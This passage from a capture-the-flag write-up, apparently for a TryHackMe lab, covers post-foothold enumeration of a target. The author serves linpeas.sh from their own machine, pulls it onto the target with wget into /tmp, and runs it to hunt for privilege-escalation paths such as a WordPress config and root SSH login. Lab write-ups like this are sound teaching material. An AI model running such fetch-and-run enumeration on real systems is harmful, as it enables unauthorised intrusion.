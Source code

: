We're going to check in the home directory. 

```shell
$ cd home
$ ls
aubreanna

$ cd aubreanna
/bin/sh: 6: cd: can't cd to aubreanna
```

Right turns out there is a user name called 'aubreanna' but we dont have permissions to access the directory.  

We now going to enumerate further using linpeas to find any privilege escalation.

Setting up a python http server runnign on port 8080

```shell
$ python -m http.server 8080
```
Obtain linpeas.sh from our machine to the target using wget and storing it into the tmp directory.

```shell
$ wget http://<my IP>:8080/linpeas.sh -O /tmp/linpeas.sh
--2023-08-08 12:44:23--  http://<My IP>:8080/linpeas.sh
Connecting to <My IP>:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: '/tmp/linpeas.sh'

     0K .......... .......... .......... .......... .......... 38%  444K 0s
    50K .......... .......... .......... .......... .......... 76%  578K 0s
   100K .......... .......... .......... .                    100%  593K=0.3s

2023-08-08 12:44:24 (521 KB/s) - '/tmp/linpeas.sh' saved [134168/134168]
```
Headed over to the /tmp and execute using bash linpeas.sh

```code
$ cd tmp
$ ls
linpeas.sh
$ bash linpeas.sh
```
We used linpeas for easy navigation for privilege escalation by using the colour palete

There are some interesting things that bought our attention.

There is possible wordpress configuration?

![14 linpeas wp config](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/20856305-5dba-48f7-8d31-84219bbf5b3f)

There is a SSH root login (but we do need the password to that)

![15 root](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/bbf3c169-83d6-40cf-a974-db0ac6fbb696)
